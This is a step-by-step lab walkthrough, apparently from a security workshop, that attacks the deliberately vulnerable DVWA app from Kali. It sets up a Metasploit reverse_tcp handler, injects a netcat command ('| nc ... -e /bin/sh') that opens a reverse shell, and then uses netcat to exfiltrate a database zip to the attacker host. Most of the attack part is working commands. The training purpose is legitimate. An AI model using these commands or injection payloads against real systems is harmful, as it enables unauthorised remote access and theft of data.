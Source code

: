 Reverse Shell
=============

A reverse shell is a shell session established on a connection that is initiated from a remote machine, not from the attacker’s host. Attackers who successfully exploit a remote command execution vulnerability can use a reverse shell to obtain an interactive shell session on the target machine and continue their attack. Reverse shells can also work across a NAT or firewall.

#. Running a Command-and-Control Server in Kali
     In the Kali Web Shell run the command:

     .. code-block::

       msfconsole

     .. image:: ../images/Attacks/Picture12.png
#. Running a ‘reverse-shell’ module on Kali
     In the Kali Web Shell run the command:

     .. code-block::

       use exploit/multi/handler
       set PAYLOAD linux/x64/shell/reverse_tcp
       set LHOST 10.1.50.8
       run
      
     .. image:: ../images/Attacks/Picture13.png
#. Run reverse shell command from DVWA
     In the XRDP Web Browser for DVWA run the command:

     .. code-block::

       | nc 10.1.50.8 4444 -e /bin/sh &

     .. image:: ../images/Attacks/Picture14.png
#. Execute shell commands from Kali
     In the Kali Web Shell **Press Enter 1x prior to running commands**
  
     .. code-block::

       pwd
       ls -AlFh

     .. image:: ../images/Attacks/Picture15.png
#. Open a New Web Shell in Kali

     .. image:: ../images/Attacks/Picture16.png
#. Setup Data Exfiltration from Kali (2nd Web Shell [New Shell Window])

     .. code-block::

       cd /home/kali
       rm Sample-DB.zip
       nc -l -p 8888 > Sample-DB.zip

     .. image:: ../images/Attacks/Picture17.png
#. Run Data Exfiltration command from Kali (1st Web Shell [Reverse Shell Window])

     .. code-block::

       nc -w 3 10.1.50.8 8888 < Sample-DB.zip

     .. image:: ../images/Attacks/Picture18.png
#. Check Exfiltrated file on Kali from the compromised server (2nd Web Shell [New Shell Window])
     If file has size (~93MB) then the data exfiltration was successful

     .. code-block::

       ls -AlFh |grep -I Sample

     .. image:: ../images/Attacks/Picture19.png